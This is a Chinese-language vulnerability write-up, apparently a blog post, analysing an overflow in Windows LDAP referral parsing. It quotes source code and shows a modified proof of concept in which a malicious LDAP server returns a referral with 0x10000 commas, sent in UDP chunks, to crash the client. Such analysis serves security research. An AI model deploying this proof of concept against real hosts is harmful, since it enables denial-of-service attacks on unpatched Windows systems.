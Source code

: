 翻一下源码可以看到AttribCount增加的代码在LdapParseReferralDN函数：  
```
//// Count the commas in the attrib string//PWCHAR lp = CurrentPos;while(*lp && *lp != L'\0') {    if((*lp == L',') && (*(lp-1) != L'\\')) {        pRefDN->AttribCount++;    }    lp++;}pRefDN->AttribCount++; // one more attribute than commas
```  
  
根据注释可知是统计参数newDN中的逗号的  
  
（实际上是通过逗号来确定数量，即一个标准的referral格式为：  
  
ldap://ldap2.example.com/ou=sales,dc=example,dc=com）  
  
newDN则来源于函数HandleReferral中的Request中的referrals:  
```
//  we've got a referral here or maybe even a set of referrals.//  it is null terminated but could be multiple URLs separated//  by 0x0A (new line).//while ((referral != NULL) && (*referral != L'\0')) {    BOOLEAN ssl = FALSE;    if (ldapWStringsIdentical( referral,                               sizeof("ldap://")-1,                               L"ldap://",                               sizeof("ldap://")-1 ) == FALSE) {        if (ldapWStringsIdentical( referral,                                   sizeof("ldaps://")-1,                                   L"ldaps://",                                   sizeof("ldaps://")-1 ) == FALSE) {...
```  
  
所以我们需要让我们的恶意服务器返回一个包含0x10000个逗号的referral，直接修改SafeBreach的POC：  
```
ldap_search_result = LDAPSearchResultDoneRefferal(resultCode=REFERRAL_RESULT_CODE, referral=['ldap://a/a?' + ',' * 0x10000])
```  
  
设置dns服务器之类的可以参考SafeBreach的文章。  
  
总之，修改后发送数据包：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/g1ibHIZnnGxx9wnzoSPmicwdsMOgKy0Vtces0DiaWOwIc0tgyFYWK5SojzQEpSchDyAd2OslBj5wuA0OAre9NzOTg/640?wx_fmt=png&from=appmsg "")  
  
会有数据包过大的问题，所以尝试多次发送：  
```
vulnerable_ldap_packet = get_malicious_ldap_packet(ldap_message.id)packet_size = len(vulnerable_ldap_packet)chunk_size = packet_size // 100remainder = packet_size % 100offset = 0for i in range(100):    current_chunk_size = chunk_size + 1 if i < remainder else chunk_size    end = offset + current_chunk_size    chunk = vulnerable_ldap_packet[offset:end]    self.transport.sendto(chunk, addr)    offset = end
```  
  
然后抓包发现数据包格式不太对：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/g1ibHIZnnGxx9wnzoSPmicwdsMOgKy0VtcpWudnqKVTiclNZibVKmkJrYicXOSUAFUcMOOO9PQCtP3N8vfNjTF7EClg/640?wx_fmt=png&from=appmsg "")  
  
最终尝试自行构造（  
GPTDeepSeek启动！)数据包，完整代码见末尾。  
  
然后断下来可以看到我们的AttribCount是0x10001，继续运行成功触发崩溃：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/g1ibHIZnnGxx9wnzoSPmicwdsMOgKy0VtcTpQaSnmKBsN7059Q5RZVHoFor620euttAObOAJV5J4Xib1Ps9UgyNtQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/g1ibHIZnnGxx9wnzoSPmicwdsMOgKy0VtcG07aicICouibemaaQtzuhkKBtY8zamEXhGuJ1eULuMmqZkRsoEIbibqvw/640?wx_fmt=png&from=appmsg "")  
  
